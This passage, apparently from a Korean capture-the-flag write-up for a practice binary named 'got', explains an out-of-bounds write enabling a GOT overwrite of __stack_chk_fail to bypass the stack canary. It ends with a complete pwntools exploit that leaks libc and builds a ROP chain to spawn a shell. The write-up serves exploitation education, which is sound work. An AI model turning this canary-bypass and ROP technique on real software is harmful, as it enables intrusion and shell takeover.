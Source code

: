 ```c
            puts("Grrrrr....!!!");
            return 1;
        }
    }
}
```

모든 메뉴를 무한 번 실행 가능합니다. 1번 메뉴는 `wire` 배열에 접근하여 값을 쓰는 기능을 합니다. 이 때 `select`에 대한 검사가 없기 때문에 `oob` 취약점이 발생합니다. 그리고 `wire` 배열이 `bss`에 위치해있는 점, `Partial RELRO`인 점을 종합하면 `got overwrite`가 가능합니다. 2번 메뉴는 `startup` 함수를 실행합니다. `startup` 함수에서는 `bof`가 발생합니다.

- 익스플로잇 설계

카나리가 있기 때문에, 이를 알아내야 하는데 릭 벡터를 일차원적으로 찾을 수는 없습니다. 따라서 카나리를 변조해야만 다음 단계로 넘어갈 수 있습니다. 그런데 스택 프레임 내부의 카나리 값이 기존 카나리 값과 달라지면 `__stack_chk_fail` 함수를 호출합니다. 따라서 이 함수의 `got` 영역을 변조하고 의도적으로 호출하도록 설계합니다. `bof` 크기가 크기 때문에 `got overwrite`에서 체이닝을 고려할 필요는 없고 `ret` 주소로만 변조해도 충분합니다. 이러면 그냥 다음 어셈블리어 코드가 실행되므로 카나리 체크는 없는 것과 마찬가지입니다.

`pop rdi ; ret` 가젯이 있기 때문에 `bof`를 이용하여 `puts`를 호출하여 `libc_base`를 얻고 `ROP`를 수행하여 `system('/bin/sh')`를 호출합니다. 이 때 `sfp`의 값을 신경써주어야 합니다. `startup` 함수를 두 번 실행하기 때문에 두 번째 함수의 `leave ; ret`에 의해 첫 번째 `payload`의 `sfp` 값이 `rsp`가 됩니다. `system` 함수는 작동 중에 쓰기 과정이 있으므로 `rsp`의 근처의 주소가 쓰기 가능한 영역이어야 합니다. 즉 `sfp`를 바른 주소로 적어주어야 합니다. `rsp`가 음수 쪽으로 쓰기 불가능한 주소와 가까이 있다면 `system` 함수가 제대로 작동하지 않을 가능성이 있으므로 보통 `e.bss() + 0x800 or 0x900`를 많이 사용합니다. 아래 코드가 이해를 도울 것입니다.

- 익스플로잇

```python
from pwn import *

p = process('./got')
e = ELF('./got')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi = 0x4011fe
ret = 0x40101a

def w1(idx : int, msg : int):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(idx).encode())
    p.sendlineafter(b': ', str(msg).encode())

def w2(msg : bytes):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'!\n', msg)

print(hex(e.bss()))
w1((e.got['__stack_chk_fail'] - e.sym['wire']) // 8, 0x40101a)
w2(b'a' * 0x110 + p64(e.bss() + 0x900) + p64(pop_rdi) + p64(e.got['read']) + p64(e.sym['puts']) + p64(e.sym['startup']))
l.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - l.sym['read']
print("libc_base = " + hex(l.address))

binsh = list(l.search(b'/bin/sh'))[0]
system = l.sym['system']
p.sendafter(b'!', (b'a' * 0x110 + p64(e.bss() + 0x900) + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)))
p.interactive()
```

---